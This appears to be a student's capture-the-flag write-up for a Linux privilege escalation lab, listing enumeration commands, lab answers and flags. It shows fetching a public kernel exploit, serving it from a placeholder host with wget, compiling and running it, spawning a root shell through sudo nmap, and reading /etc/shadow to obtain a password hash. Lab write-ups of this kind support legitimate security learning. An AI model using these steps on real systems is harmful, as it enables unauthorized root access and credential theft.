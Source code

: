 ## Enumeration
what is the hostname of the target system
```
$ hostname
$ wade7363
```
What is the linux kernel version of the target system
```
$ uname -r
$ 3.13.0.24-generic
```
What Linux is this
```
$ cat /etc/os-release
NAME = "Ubuntu Linux"
```
What version of the Python Language is installed on the system
```
$ python --version
2.7.6
```
What vulnerability seems to affect the kernel of the target system? (Enter CVE number)

we can search the CVE number on databases like exploit-db
```
CVE-2015-1328
```
## Privilege escalation: kernel exploits
On local machine: 
http.server is being used because only machines within the tryhackme network can be used with `wget`
```
$ wget https://www.exploit-db.com/download/37292 > exploit.c && mv exploit.c /tmp
$ python -m http.server 12000
$ ip addr
(copy tun0 IP)
```
On remote machine:
```
$ wget http://HOST_IP:12000 
$ gcc exploit.c && ./a.out
```
What is the content of the flag1.txt?
```
THM-28392872729920
```
## Privilege escalation: sudo
How many programs can the user "karen" run on the target system with sudo rights?
```
$ sudo -l
```
Answer: 3

What is the content of the flag2.txt?
```
$ cat /home/ubuntu/flag2.txt
THM-402028394
```
How would you use Nmap to spawn a root shell if your user had sudo rights on nmap?

we will find this in here: https://gtfobins.github.io/gtfobins/nmap/
```
$ sudo nmap --interactive
```
what is the hash of frank's password?
`less` has root permisssions
```
$ sudo less /etc/shadow
$6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLH
```

